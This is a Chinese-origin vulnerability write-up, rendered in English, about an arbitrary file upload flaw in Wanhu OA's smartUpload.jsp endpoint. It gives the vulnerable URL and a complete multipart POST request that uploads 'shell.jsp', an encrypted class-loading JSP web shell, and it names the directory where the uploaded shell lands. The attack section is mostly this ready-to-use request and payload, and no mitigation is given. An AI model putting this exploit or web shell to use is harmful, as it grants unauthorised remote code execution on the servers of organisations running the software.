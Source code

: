 # Wanhu OA smartUpload.jsp Any file upload vulnerability

## Vulnerability Description

Wanhu OA smartUpload.jsp file has a file upload interface and does not filter the file type, resulting in a vulnerability to upload any file.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Ten thousand households OA </span>

## Network surveying and mapping



## Vulnerability reappears

Product Page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1628348571931-52bde954-fcd0-485f-bc17-1494f5eb53f4-20220313175038784.png)

File upload interface

```python
/defaultroot/extension/smartUpload.jsp?path=information&fileName=infoPicName&saveName=infoPicSaveName&tableName=infoPicTable&fileMaxSize=0&fileMaxNum=0&fileType=gif,jpg,bmp,jsp,png&fileMinWidth=0&fileMinHeight=0&fileMaxWidth=0&fileMaxHeight=0
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1631201920760-82135dc9-6e13-4305-9876-cc8b8ef6d4cf.png)

Can directly upload malicious jsp files

```python
POST /defaultroot/extension/smartUpload.jsp?path=information&mode=add&fileName=infoPicName&saveName=infoPicSaveName&tableName=infoPicTable&fileMaxSize=0&fileMaxNum=0&fileType=gif,jpg,bmp,jsp,png&fileMinWidth=0&fileMinHeight=0&fileMaxWidth=0&fileMaxHeight=0 HTTP/1.1
Host: 
Content-Length: 938
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarynNQ8hoU56tfSwBVU
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.63 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: JSESSIONID=PjXnh6bLTzy0ygQf41vWctGPLGkSvkJ6J1yS3ppzJmCvVFQZgm1r!1156443419
Connection: close

------WebKitFormBoundarynNQ8hoU56tfSwBVU
Content-Disposition: form-data; name="photo"; filename="shell.jsp"
Content-Type: application/octet-stream

<%@page import="java.util.*,javax.crypto.*,javax.crypto.spec.*"%><%!class U extends ClassLoader{U(ClassLoader c){super(c);}public Class g(byte []b){return super.defineClass(b,0,b.length);}}%><%if (request.getMethod().equals("POST")){String k="e45e329feb5d925b";session.putValue("u",k);Cipher c=Cipher.getInstance("AES");c.init(2,new SecretKeySpec(k.getBytes(),"AES"));new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext);}%>
------WebKitFormBoundarynNQ8hoU56tfSwBVU
Content-Disposition: form-data; name="continueUpload"

1
------WebKitFormBoundarynNQ8hoU56tfSwBVU
Content-Disposition: form-data; name="submit"

上传继续
------WebKitFormBoundarynNQ8hoU56tfSwBVU--
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1631201969026-5429e06f-9325-48aa-a730-9db081177c10.png)

By grabbing the package, you can view the uploaded file name. The uploaded directory is `/defaultroot/upload/information/`

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1631202052399-23c860b4-fe4a-48b7-b284-9d5e8eb4c05c.png)